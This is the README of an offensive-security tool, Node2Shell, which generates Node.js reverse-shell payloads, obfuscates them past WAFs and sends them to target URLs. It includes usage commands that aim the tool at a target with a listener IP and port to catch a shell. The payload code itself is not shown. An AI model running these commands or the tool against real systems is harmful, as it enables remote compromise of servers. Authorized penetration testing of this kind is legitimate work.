

# Node2Shell


# 💀 NODE2SHELL


<div align="center">

**A Python-based Node.js reverse shell & exploit framework for red teamers.**

[](https://github.com/anonmoty/Node2Shell)
[](https://python.org)
[](https://nodejs.org)
[](LICENSE)
[](https://github.com/anonmoty/Node2Shell)

</div>


---

## ⚠️ Legal Disclaimer

```
╔══════════════════════════════════════════════════════════════════════╗
║                                                                      ║
║   NODE2SHELL is an OFFENSIVE security tool built for AUTHORIZED      ║
║   penetration testing, red teaming, and bug bounty programs only.    ║
║                                                                      ║
║   ▸ Use ONLY on systems you own or have written permission to test.  ║
║   ▸ Unauthorized access or exploitation is ILLEGAL.                  ║
║   ▸ Always follow the bug bounty scope and local laws.               ║
║   ▸ The author is NOT responsible for any misuse or damage.          ║
║                                                                      ║
║   Hack responsibly. Exploit ethically. Report professionally.        ║
║                                                                      ║
╚══════════════════════════════════════════════════════════════════════╝
```

---

## 🎯 Overview

**NODE2SHELL** is a Python-based exploitation framework designed to target Node.js applications. It helps red teamers and bug bounty hunters generate reverse shells, bypass filters, and gain remote code execution (RCE) in authorized environments. 

Whether you're testing prototype pollution, insecure `eval()` usage, or command injection — Node2Shell gives you the payloads to execute.

---

## ✨ Core Features

```
┌─────────────────────────────────────────────────────────────────────┐
│  [01] 🚀 Payload Generator    → Generates Node.js reverse shells     │
│  [02] 🛡️ Bypass Techniques    → Evades basic WAFs & input filters    │
│  [03] 🌐 Remote Execution     → Execute system commands via Node     │
│  [04] 📋 Custom Payloads      → Bring your own JS exploits           │
│  [05] 🔍 Injection Detection  → Finds vulnerable Node parameters     │
│  [06] ⚡ Multi-Threaded       → Fast parallel testing                │
│  [07] 📊 Live Progress Bar    → Real-time terminal feedback          │
│  [08] 📝 JSON Reports         → Structured exploitation logs         │
│  [09] 🎨 Hacker Terminal UI   → Red + Black aesthetic                │
│  [10] 🧰 Modular Design       → Extend with custom modules           │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 🚀 Installation

```bash
# 1. Clone the repo
git clone https://github.com/anonmoty/Node2Shell.git
cd Node2Shell

# 2. Install dependencies
pip install -r requirements.txt

# 3. Run the tool
python node2shell.py --help
```

**One-liner (copy-paste):**

```bash
git clone https://github.com/anonmoty/Node2Shell.git && cd Node2Shell && pip install -r requirements.txt && python node2shell.py --help
```

---

## 🎯 Usage

```bash
# Generate a basic reverse shell payload
python node2shell.py --generate --ip 10.10.10.10 --port 4444

# Start a listener and auto-exploit a target URL
python node2shell.py --url http://target.com/api/eval --ip 10.10.10.10 --port 4444

# Advanced mode with custom payload
python node2shell.py --url http://target.com/vuln --payload custom.js --output reports/shell.json
```

### CLI Flags

| Flag | Description |
|:---|:---|
| `--generate` | Generate a raw Node.js reverse shell |
| `--url` | Target URL to exploit |
| `--ip` | Your listening IP address |
| `--port` | Your listening port |
| `--payload` | Path to custom JS payload |
| `--output` | Report output path |
| `--verbose` | Enable verbose logging |
| `--help` | Show help menu |

---

## 🧠 How It Works



1. **Check** — Tests for Node.js injection points
2. **Generate** — Creates a custom reverse shell payload
3. **Bypass** — Obfuscates payload if WAF is present
4. **Execute** — Sends payload to target
5. **Catch** — Catches the reverse shell connection

---

## 📁 Project Structure

```
Node2Shell/
├── node2shell.py
├── core/
│   ├── generator.py
│   ├── bypass.py
│   ├── sender.py
│   └── reporter.py
├── payloads/
│   ├── reverse.js
│   ├── encoded.js
│   └── obfuscated.js
├── reports/
├── tests/
├── requirements.txt
├── LICENSE
└── README.md
```

---

## 📸 Demo

```
██████████████████████████████████████████████████████████████████████
█                                                                    █
█   NODE2SHELL v1.0.0                                                █
█   ───────────────────────────────────────────────────────────      █
█                                                                    █
█   [✓] Target: http://target.com/api/eval                           █
█   [✓] Listener IP: 10.10.10.10                                    █
█   [✓] Listener Port: 4444                                          █
█   [→] Injecting payload...                                         █
█                                                                    █
█   [████████████████████████░░░░░░] 80%                             █
█                                                                    █
█   [!] Payload injected successfully                                █
█   [✓] Reverse shell caught!                                        █
█   [✓] Node.js RCE achieved                                         █
█   [✓] Report: reports/shell_2024.json                              █
█                                                                    █
█                    Shell Acquired! 💀                              █
█                                                                    █
██████████████████████████████████████████████████████████████████████
```

---

## 🛠️ Requirements

```txt
requests>=2.28.0
aiohttp>=3.9.0
colorama>=0.4.6
tqdm>=4.65.0
rich>=13.0.0
```

```bash
pip install -r requirements.txt
```

---

## 🎨 Terminal Theme

Node2Shell uses a **red + black** hacker palette:

```python
THEME = {
    "primary":   "\033[38;5;196m",  # Bright Red
    "secondary": "\033[38;5;202m",  # Dark Red
    "accent":    "\033[38;5;214m",  # Amber
    "error":     "\033[38;5;196m",  # Red
    "warning":   "\033[38;5;220m",  # Yellow
    "info":      "\033[38;5;51m",   # Cyan
    "reset":     "\033[0m",
}
```

---

## 🐛 Red Team Workflow

```
██████████████████████████████████████████████████████████████████████
█                                                                    █
█   [01] Reconnaissance       →  subfinder, amass                    █
█   [02] Vulnerability Scan   →  nuclei, Burp Suite                  █
█   [03] Exploitation         →  NODE2SHELL  ← you are here          █
█   [04] Post Exploitation    →  Privilege escalation                █
█   [05] Reporting            →  Structured JSON                     █
█                                                                    █
██████████████████████████████████████████████████████████████████████
```

---

## 🗺️ Roadmap

```
┌─────────────────────────────────────────────────────────────────────┐
│  [x] Reverse shell generator                                        │
│  [x] Basic bypass techniques                                        │
│  [x] Remote execution                                               │
│  [x] JSON reports                                                   │
│  [x] Hacker terminal UI                                             │
│  [ ] Advanced WAF bypass                                            │
│  [ ] Prototype pollution module                                     │
│  [ ] Docker image                                                   │
│  [ ] Web dashboard                                                  │
└─────────────────────────────────────────────────────────────────────┘
```

---

## 🤝 Contributing

1. Fork the repo
2. Create branch (`git checkout -b feature/amazing`)
3. Commit (`git commit -m 'Add amazing feature'`)
4. Push (`git push origin feature/amazing`)
5. Open Pull Request

---

## 📜 License

MIT License. See [`LICENSE`](LICENSE).

---

## 🙏 Credits

- **Author:** [@anonmoty](https://github.com/anonmoty)
- **Inspired by:** The offensive security community
- **Built with:** Python, caffeine, and curiosity ☕

---

<div align="center">

```
██████████████████████████████████████████████████████████████████████
█                                                                    █
█        💀  INJECT HARD.  BYPASS SMART.  EXECUTE SAFELY.  💀        █
█                                                                    █
█                  ⭐  If this tool helped you, star it!  ⭐           █
█                                                                    █
██████████████████████████████████████████████████████████████████████
```

</div>
